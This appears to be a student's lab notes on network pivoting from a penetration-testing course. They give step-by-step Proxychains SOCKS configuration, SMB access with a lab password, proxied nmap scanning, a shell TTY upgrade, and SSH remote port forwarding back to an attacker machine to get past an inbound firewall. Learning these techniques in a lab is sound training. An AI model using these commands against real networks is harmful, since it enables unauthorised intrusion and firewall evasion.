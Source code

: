 1. On Kali, edit Proxychains config file at `/etc/proxychains4.conf` so that it can locate our SOCKS proxy port and confirm that it's a SOCKS proxy:
   Replace any existing proxy definition in the file with `socks5 192.168.50.63 9999`
	- `socks5`: can also be `socks4`, since SSH supports both
	- `192.168.50.63 9999`: IP address and port of the SOCKS proxy running on CONFLUENCE01
2. Connect from Kali to HRSHARES:
   `proxychains smbclient -L //172.16.50.217/ -U hr_admin -- password=Welcome1234`
	- Just prepend `proxychains` to the original command
	- Proxychains also provides some extra output to show the ports that were interacted with
3. E.g. Can also use Proxychains for port scanning with nmap
   `proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217`
	- Lower the `tcp_read_time_out` and `tcp_connect_time_out` values in the Proxychains configuration file to speed up the port scanning process

## SSH Remote Port Forwarding

Background:
- Firewalls control inbound traffic more than outbound traffic
- We will rarely compromise credentials for an SSH user, allowing direct SSH access to a network for port forwarding
- However, networks often allow traffic (including SSH) out

> SSH remote port forwarding: connect back to an attacker-controlled SSH server, and bind the listening port there (like a reverse shell, but for port forwarding) -> bypass firewall which blocks inbound connection

- Listening port is bound to the SSH server (instead of the SSH client)
- Packets are forwarded by the SSH client (instead of the SSH server)

Our setup:
![[Pasted image 20240820150955.png]]

- we compromised CONFLUENCE01
- but the firewall is configured such that we can only connect to TCP port 8090 on CONFLUENCE01 from our Kali
- CONFLUENCE01 has an SSH client

Goal:
- enumerate the PostgreSQL database running on port 5432 on PGDATABASE01 (CONFLUENCE01 doesn't have the tools for this)

1. enable the SSH server on our Kali machine (using OpenSSH server):
   `sudo systemctl start ssh`
2. Check that SSH port is open as expected:
   `sudo ss -ntplu`
3. Connect reverse shell to CONFLUENCE01 from Kali
4. Make sure we have TTY shell on CONFLUENCE01
   `python3 -c 'import pty; pty.spawn("/bin/bash")'`
5. create an SSH remote port forward back to our Kali machine:
   `ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4`
	- `-N`: no shell
	- `-R`: set up remote port forwarding
	- `127.0.0.1:2345`: listen on port 2345 on our Kali machine
	- `10.4.50.215:5432`: forward all traffic to port 5432 on PGDATABASE01
6. On Kali, check that the remote port forward port is listening:
   `ss -ntplu`
7. We can now connect to PGDATABASE01 port 5432 from Kali directly:
   `psql -h 127.0.0.1 -p 2345 -U postgres`
